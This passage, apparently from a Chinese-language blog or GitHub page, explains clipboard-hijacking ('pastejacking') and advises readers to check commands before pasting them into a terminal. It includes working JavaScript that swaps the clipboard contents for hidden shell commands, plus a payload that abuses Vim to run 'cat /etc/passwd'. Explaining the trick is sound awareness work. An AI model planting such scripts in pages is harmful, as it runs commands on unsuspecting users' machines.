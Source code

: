 ```js
    var msg = successful ? 'successful' : 'unsuccessful';
    console.log('Copying text command was ' + msg);
  } catch (err) {
    console.log('Oops, unable to copy');
  }

  document.body.removeChild(textArea);
}

document.addEventListener('keydown', function(event) {
  var ms = 800;
  var start = new Date().getTime();
  var end = start;
  while (end < start + ms) {
    end = new Date().getTime();
  }
  copyTextToClipboard('touch ~/.evil\nclear\necho "not evil"');
});
```

防不胜防啊。这东西就好像当年某些钓鱼网站让你乱下一些 PE 病毒一样，并没有直接的解决方案，最好的防护方式就是以后你复制命令到终端的时候仔细瞅瞅，或者先复制到一个第三方的编辑器内看看有没有啥奇怪的命令。不过别用 Vim 作为验证，譬如如下的攻击方式：

```
copyTextToClipboard('echo "evil"\n \x1b:!cat /etc/passwd\n');
```

它会利用 Vim 的 Macro 来获取你的用户密码等。如果你用的是 ITerm，它会提醒你那些自动利用换行来执行的命令: ![](https://camo.githubusercontent.com/88d852a7f44fff0ad3fd064241567a9079b6133d/687474703a2f2f692e696d6775722e636f6d2f573870776546312e706e67)
